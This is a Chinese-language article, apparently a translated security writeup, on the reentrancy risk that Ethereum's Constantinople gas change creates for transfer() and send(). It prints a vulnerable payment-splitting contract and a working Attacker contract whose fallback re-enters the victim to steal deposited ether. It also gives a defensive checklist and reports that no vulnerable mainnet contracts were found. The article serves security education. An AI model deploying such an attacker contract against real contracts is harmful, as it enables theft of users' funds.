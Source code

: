>**了解智能合约审计和最佳实践请**[点击查看文档](https://safful.com/) 

# 以太坊硬分叉后的可重入漏洞攻击

以太坊君士坦丁堡升级将降低部分 SSTORE 指令的 gas 费用。然而，这次升级也有一个副作用，在 Solidity 语言编写的智能合约中调用 address.transfer()函数或 address.send()函数时存在可重入漏洞。在目前版本的以太坊网络中，这些函数被认为是可重入安全的，但分叉后它们不再是了。

# 这个代码的问题何在？

下图是君士坦丁堡硬分叉之前没有可重入漏洞的一个代码段，它会在分叉后导致可重入性。

```solidity
pragma solidity ^0.5.0;

contract PaymentSharer {
  mapping(uint => uint) splits;
  mapping(uint => uint) deposits;
  mapping(uint => address payable) first;
  mapping(uint => address payable) second;

  function init(uint id, address payable _first, address payable _second) public {
    require(first[id] == address(0) && second[id] == address(0));
    require(first[id] == address(0) && second[id] == address(0));
    first[id] = _first;
    second[id] = _second;
  }

  function deposit(uint id) public payable {
    deposits[id] += msg.value;
  }

  function updateSplit(uint id, uint split) public {
    require(split <= 100);
    splits[id] = split;
  }

  function splitFunds(uint id) public {
    // Here would be:
    // Signatures that both parties agree with this split

    // Split
    address payable a = first[id];
    address payable b = second[id];
    uint depo = deposits[id];
    deposits[id] = 0;

    a.transfer(depo * splits[id] / 100);
    b.transfer(depo * (100 - splits[id]) / 100);
  }
}
```

An example for newly vulnerable code.

这个代码会被一种意想不到的方式攻击：它模拟了一个安全的资金共享服务。双方可以共同接收资金，决定如何分成，如果他们达成一致 ­，则可以获得支付。攻击者将创建一个对，其中第一个地址是下图列出的攻击合约地址，第二个地址则是任何攻击者账户。攻击者将在这个对存入一些以太币。

```solidity
pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
  address private victim;
  address payable owner;

  constructor() public {
    owner = msg.sender;
  }

  function attack(address a) external {
    victim = a;
    PaymentSharer x = PaymentSharer(a);
    x.updateSplit(0, 100);
    x.splitFunds(0);
  }

  function () payable external {
    address x = victim;
    assembly{
        mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
        pop(call(10000, x, 0, 0x80, 0x44, 0, 0))
    }
  }

  function drain() external {
    owner.transfer(address(this).balance);
  }
}
```

Attacker Contract listed as first address.

当攻击者在自己的合约中调用 attack 函数时，在同一个交易中就会发生以下事件：

1. 攻击者利用 updateSplit 函数设置当前的分成，从而确保之后的升级将会降低费用。这是君士坦丁堡升级带来的效应。攻击者通过这种方式设置分成，他的第一个地址（即攻击合约地址）就能接收到所有的以太币。
2. 攻击合约调用 splitFunds 函数，该调用将进行检查\*等，并通过 transfer()函数把其中存储的所有以太币发送到攻击合约。
3. 通过回退函数，攻击者再次执行分成，这一次将所有以太币分配给他的第二个地址，即其自己的账户。
4. 通过不断执行 splitFunds 函数，在第一个地址中存储的所有以太币都被转移到了攻击者账户中。
   _简单来说，攻击者可以不断从 PaymentSharer 合约中盗取其他用户的以太币。_

# 为什么这种漏洞变得可利用了？

在君士坦丁堡硬分叉前，一个存储指令至少需要 5000 gas 手续费。这远远超过了在利用 transfer()函数或 send()函数调用合约时可用的 2300 gas 津贴。
在君士坦丁堡分叉后，会改变“脏（dirty）”存储器槽（storage slot）的存储指令只需 200 gas。如果在交易执行期间对一个存储器槽做出修改，那么这个存储器槽就会被标记为“dirty”。如上所示，这可以通过在攻击合约调用一些改变所需变量的公共函数来实现。然后，通过使被攻击合约调用攻击合约，例如使用 msg.sender.transfer（…）函数，攻击合约就可以利用 gas 津贴成功操纵这个被攻击合约的变量。
被攻击合约必须满足以下先决条件：

1. 首先必须存在函数*A，在调用 transfer/send 函数后将执行状态修改的指令。有时这种指令可能是不明显的，例如，第二次 transfer 的调用或与另一个智能合约的互动。*
2. 必须存在攻击者可调用的函数*B* ，能够实现（a）改变状态；（b）其状态改变与函数*A*的状态改变冲突。
3. 执行函数*B* 的手续费必须小于 1600 gas （2300 gas 津贴 — CALL 指令花费的 700 gas）。

# 我的智能合约是否易受攻击？

要测试一个智能合约是否易受攻击：
(a) 检查在 transfer 事件后是否存在其他指令。
(b) 检查这些指令是否修改了存储状态。最常见的修改是通过分配一些存储变量。如果你在调用另一个合约，比如代币的 transfer 函数，检查并列出所有被修改的变量。
© 检查在你的合约中是否有任何非管理员可访问的方式使用了这些变量。
(d) 检查这些方式本身是否修改了存储状态。
(e) 检查这种方式的手续费是否低于 2300 gas，记住，SSTORE 指令理论上只需要花费 200 gas。
如果上述所有情况皆符合，那么攻击者很可能可以对你的合约发起恶意攻击，使其陷入糟糕的状态。总的来说，这也再次提醒了我们“检查-生效-交互”（Checks-Effects-Interactions）模式的重要性。

# 目前存在易受攻击的智能合约吗？

利用 eveem.org 提供的数据，我们检查了主要以太坊区块链，并未发现易受攻击的智能合约。我们也在与 ethsecurity.org 工作组的成员合作，将此次检查扩展到尚未反编译的复杂智能合约，尤其是去中心化交易所。去中心化交易所经常向不可信账户调用以太币转移函数，之后存储状态被修改，这些交易所就可能会变得易受攻击。请记住，在许多情况下，重入攻击警告并不意味着这个漏洞可以被利用，而需要更仔细的分析。
